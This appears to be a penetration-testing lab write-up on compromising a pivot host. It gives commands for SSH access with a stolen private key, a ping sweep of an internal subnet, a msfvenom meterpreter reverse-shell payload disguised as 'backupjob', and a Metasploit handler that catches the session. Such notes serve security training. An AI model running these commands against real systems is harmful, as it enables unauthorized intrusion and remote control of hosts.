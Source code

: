 ## Pivot Host Compromise

- Copy the contents of the private key into `id_rsa`
- SSH into the web server with the private key and the `webadmin` username

SSH into the webserver
```go
ssh -i id_rsa webadmin@10.129.229.129
```

Ping sweep to find other hosts on the network
```go
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

IP of second host found 
```
172.16.5.35
```
![[pivot_host_ips.png]]

This box is the pivot host.
![[Pasted image 20250403220026.png]]

Generate msfvenom payload
```go
bundle exec msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.129.229.129 -f elf -o backupjob LPORT=8080
```

Copy backupjob to webadmin server
```go
scp -i id_rsa backupjob webadmin@10.129.229.129:/tmp
```

Configure the metasploit reverse_tcp payload
```go
use exploit/multi/handler
```

```go
set lhost 0.0.0.0
```

```go
set lport 8080
```

```go
set payload linux/x64/meterpreter/reverse_tcp
```

```go
run
```

Execute the `backupjob` payload on the pivot host, the meterpreter session will be established on the attack host.
![[initial_meterpreter_session.png]]
